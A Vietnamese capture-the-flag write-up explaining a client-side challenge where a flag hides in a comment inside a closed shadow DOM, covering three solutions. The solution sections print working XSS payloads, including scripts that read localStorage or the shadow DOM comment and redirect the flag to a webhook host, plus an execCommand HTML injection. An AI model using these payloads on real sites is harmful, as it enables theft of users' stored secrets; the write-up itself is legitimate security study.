 Một bài client side rất hay về shadow DOM, mục đích của đề bài đó chính là lấy được flag nằm trong một COMMENT node bên trong shadow DOM
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/791675ef-df54-43c0-967a-318536d6369b)

## Tổng quan
```html
<html>
	<head>
		<title>Sayeha</title>
	</head>
	<body>
		<div id="ctx"></div>
		<script>
			function containsText(){
				for(let i=0;i<0x10000;i++){
					if(window.find(String.fromCharCode(i))){
						return true
					}
				}
				return false
			}

			let params = new URLSearchParams(document.location.search)
			let html = params.get('html') ?? '<!-- hi -->'
			let p = params.get('p') ?? 'console.log(1337)'
			let shadow = ctx.attachShadow({mode: 'closed'});

			let mtag = document.createElement('meta')
			mtag.httpEquiv = 'Content-Security-Policy'
			mtag.content = `default-src 'none'; script-src 'unsafe-eval';`
			document.head.appendChild(mtag)

			shadow.appendChild(document.createElement('div'))
			shadow.children[0].innerHTML = `<!-- ${localStorage.getItem('secret') ?? 'ASIS{test-flag}'} -->`
			shadow.children[0].innerHTML += html.slice(0,0x2000)
			localStorage.removeItem('secret')

			if(
				shadow.children.length != 1 ||
				shadow.children[0].innerText != '' ||
				containsText()
			){
				throw 'no'
			}

			shadow = null
			mtag = null

			setTimeout(p,500)
		</script>
	</body>
</html>


```
Ta có 1 bug JS Injection và 1 bug HTML Injection lần lượt thông qua GET param `p` và `html`:
- Ở bug HTML Injection, data mà ta nhập vào sẽ được đưa vào một **closed** shadow DOM
- Ở bug JS Injection, data nhập vào sẽ được đưa vào sink `setTimeout`

Trang web có triển khai CSP: 
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/e00f981f-42e4-46ac-a592-d7e94fe313ec)

## Shadow DOM
Shadow DOM là một tính năng được sử dụng để tạo một DOM tree mới được "sandbox" với DOM tree chính
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/bd4a1f03-bf12-483e-812b-7aaebe0f56e1)

Shadow DOM sẽ được `attach` vào một host ( một node trong DOM chính ) và có thể ở một trong 2 trạng thái: `closed` và `open`. Đối với trạng thái open thì DOM tree chính có thể truy cập được vào bên trong thông qua thuộc tính `shadowRoot` của host node

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/52a8fa91-e321-4873-9b6b-2f380216b69b)

Đối với `closed` thì sẽ là điều ngược lại, ta sẽ nhận về giá trị `null` nếu cố gắng truy xuất vào shadowRoot
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/74268d1c-4622-4546-a7ce-345e6cf6a998)

Tới đây hẳn bạn sẽ nghĩ shadowRoot là một cơ chế bảo mật giúp sandbox một DOM tree lại, tuy nhiên shadow DOM chưa bao giờ được tạo ra nhằm mục đích bảo mật, nó được tạo ra để isolate các style giữa các DOM với nhau
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/d3d6a506-bdea-4f23-ab80-ef682d7c7c1b)

Một trong những cách đã từng được sử dụng là sử dụng hàm `window.find` được đề cập trong bài `shadow` [DiceCTF 2022](https://github.com/Super-Guesser/ctf/blob/master/2022/dicectf/shadow.md), bởi dù là các DOM tree khác nhau nhưng vẫn cùng chung một `window` object nên việc này là dễ hiểu. Ở bài CTF lần này, kỹ thuật đó đã không còn sử dụng được bởi `window.find` chỉ có thể tìm ra các text trong DOM và sau khi được đưa vào DOM thông qua `innerHTML` thì `div` node đã được kiểm tra để bảo đảm thằng `innerText` là rỗng
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/36d93fed-18c7-45dd-98ff-4b199f78347d)

## Solution by Ark
Ở solution của Ark, tuy là một unintended solution nhưng mình thật sự thấy thích cách giải này, do writeup của Ark rất ngắn gọn, chỉ có solve script và không có giải thích gì nên mình quyết định sẽ giải thích cách làm đó tại đây:
Solve script của Ark:
```html
<body>
<script>
const TARGET_BASE_URL = "http://web";
// const TARGET_BASE_URL = "http://localhost:8000";

const HOOK_URL = "https://webhook.site/xxx";

const elm = document.createElement("iframe");
elm.src = `${TARGET_BASE_URL}?p=${encodeURIComponent(`
  const w = open("${TARGET_BASE_URL}");
  const flag = w.localStorage.getItem("secret");
  location = "${HOOK_URL}?q=" + flag;
`)}`;
document.body.appendChild(elm);
</script>
</body>
```
Ở đây anh này sẽ tạo một iframe, chĩa source của iframe đến trang challenge và sau đó tại trang challenge lại tiếp tục mở một window đến trang challenge đó, cùng đọc kỹ lại đoạn code của challenge:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/0294147e-11b2-44ac-ae1d-873fd9c5e937)

Chú ý ở 3 chỗ mình bôi đen, đầu tiên `secret` sẽ được lấy ra từ Local Storage và đưa vào comment, ngay sau đó sẽ thực hiện remove nó khỏi Local Storage nhằm mục đích ngăn việc truy xuất flag trực tiếp sau khi callback của `setTimeout` (do ta kiểm soát) chạy, 500 mili second là thời gian mà tác giả cho sleep để tránh việc callback được chạy trước khi `secret` được xóa khỏi Local Storage do tính bất đồng bộ của JS. Vậy cách làm của Ark chính là dùng `window.open` để lấy `secret` trong Local Storage trước khi nó bị remove. Nhưng hẳn bạn sẽ băn khoăn rằng chẳng phải `secret` đã được xóa từ khi lần đầu truy cập vào trang challenge rồi sao? Đó là lý do mà Ark dùng đến iframe, bên trong iframe thì Local Storage sẽ là Local Storage của top-live window do cơ chế [Storage Partitioning](https://developer.mozilla.org/en-US/docs/Web/Privacy/State_Partitioning#static_partitioning) của browser, do đó tại thời điểm đó `secret` sẽ không tồn tại trong Local Storage. 
## Solution by IcesFont
Đây là solution được sử dụng để giải cả `sageya` và `sageya_revenge` (fix unintended) bằng cách tạo một iframe element bên trong shadow DOM và set `name` là `x`, sau đó gọi `window.open('', 'x')` để select được đến element đó, cùng vấn đề với `window.find` đó là dù DOM khác nhau thì vẫn cùng chung một `window` object. 
Solve: `?html=<iframe name='x'></iframe>&p=location='http://webhook/?'+open('', 'x').frameElement.parentElement.firstChild.data`

Khi gọi đến `window.open`, tham số thứ 2 sẽ được dùng để xác định tên của một context, nếu context đó chưa tồn tại thì sẽ thực hiện mở 1 window để mở ra context đó, vậy thì bằng cách chèn một iframe (đóng vai trò là một context) và đặt tên cho nó thì ta có thể select đến phần tử của context đó thông qua thuộc tính `frameElement` và từ đó truy xuất được đến các phần tử còn lại của DOM, cách làm rất sáng tạo. 
## Solution by Ske
TL;DR:

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/e42c14d5-0d7e-4bc6-b886-1ab3dd249ab2)

Để ý hàm `containsText`, vì cách hàm này check là dùng `window.find` để loop qua các ký tự từ 0->65536, ta biết đây là giới hạn các ký tự có thể biểu diễn được của UTF-16 và mỗi ký tự sẽ cần 2 byte để biểu diễn
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/8148a07f-9fa6-4ae4-8805-0feb61d1bc2a)

Một ký tự như emoji "🫠" (`1F AE 00`) sẽ cần đến 3 byte để biểu diễn, do đó sẽ bypass qua `containsText`. Cùng với đó thì tag `details` ở trạng thái collapsed sẽ có `innerText` == `""` tuy nhiên vẫn có thể được tìm thấy bởi `window.find`. Vậy là giải quyết được rồi, sử dụng lại kỹ thuật `window.find` và `document.execCommand` là giải quyết được bài này rồi nhỉ?
```
http://91.107.168.3:8000/?html=<details+contenteditable><summary></summary>🫠</details>&p=console.log(window.find('🫠'));document.execCommand('insertHTML',false,"<img+src=x+onerror=alert()+/>")`
```
Không đơn giản như thế, trong CSP không có `unsafe-inline`, ta không thể tùy ý thực thi JS được, Ske đã có một phát hiện rất hay đó là lợi dụng một callback `connectedCallback` được gọi mỗi khi một element được gắn vào cây DOM để từ đó truy xuất đến element đó
Bằng cách define một element mới với method `connectedCallback` dùng để truy xuất vào `this` ta sẽ dễ dàng truy xuất được đến shadow DOM
Payload của mình:
```
http://91.107.168.3:8000/?html=<details+contenteditable><summary></summary>🫠</details>&p=class TestElement extends HTMLElement {connectedCallback() {console.log(this.parentElement.parentElement.parentElement.innerHTML);}};customElements.define('test-element', TestElement);console.log(window.find("🫠"));document.execCommand("insertHTML",false,'<test-element></test-element>')
```
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/00c83d24-ba1f-4f53-b988-1bcde2623523)

Giờ chỉ cần gửi về webhook nữa là được :)
